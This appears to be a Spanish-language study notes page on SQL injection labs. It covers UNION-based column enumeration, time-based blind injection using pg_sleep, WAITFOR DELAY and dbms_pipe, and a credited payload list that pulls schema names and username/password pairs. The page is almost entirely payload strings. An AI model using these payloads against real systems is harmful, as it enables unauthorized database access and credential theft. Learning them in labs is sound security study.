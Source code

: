 * Basicamente determinamos el numero de columnas con la tecnica de los NULL's de arriba y luego de ello vamos iterando por cada columna cual acepta `string 'a'

```js
+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL,NULL--
#Esto lo hacemos hasta que ya no nos aparezca un error de server
#y podamos determinar el #columnas. identificamos un total de 3 columns
------------------------
vamos iterando el 'a' en cada column
'+UNION+SELECT+'a',NULL,NULL--
'+UNION+SELECT+NULL,'a',NULL--
'+UNION+SELECT+NULL,NULL,'a'-- 
#Esto con el fin de determinar que columna es compatible con el tipo de dato cadena. 
```
### LAB: Blind SQLi con retrasos de tiempo `trackingId` Mysql,postgreSQL,oracle

* Simplemente conseguir un retraso de tiempo. 
```sql
'dbms_pipe.receive_message(('a'),10)--
'AND (dbms_pipe.receive_message(('a'),10))--
'||(dbms_pipe.receive_message(('a'),10))--

'WAITFOR DELAY '0:0:10'--
'||WAITFOR DELAY '0:0:10'--

'SELECT pg_sleep(10)--
';SELECT pg_sleep(10)-- //codificado a url el ; -> %3b como el de abajo
'%3bSELECT+pg_sleep(5)-- que es lo mismo que
//ASI ME COGIÓ BIEN 100% CON EL PG_SLEEP EN MAYUSCULAS ->
';SELECT PG_SLEEP(5)--  
'||SELECT pg_sleep(10)--

'SELECT SLEEP(10)--

//payload FINAL -->
TrackingId=x'||pg_sleep(10)--
```

---
---
# PAYLOADS By @KrakenEu

Payloads:

```js
' order by 10-- -

' union select group_concat(schema_name) from information_schema.schemata-- -

' union select group_concat(table_name) from information_schema.tables where table_schema='nombre'-- -

' union select group_concat(column_name) from information_schema.columns where table_name='nombre'-- -

' union select group_concat(user,pass) from db.table'-- -

' UNION SELECT username_bvwtof || '~' || password_qbbxtg,'KEH' FROM users_tbmogf-- -
```
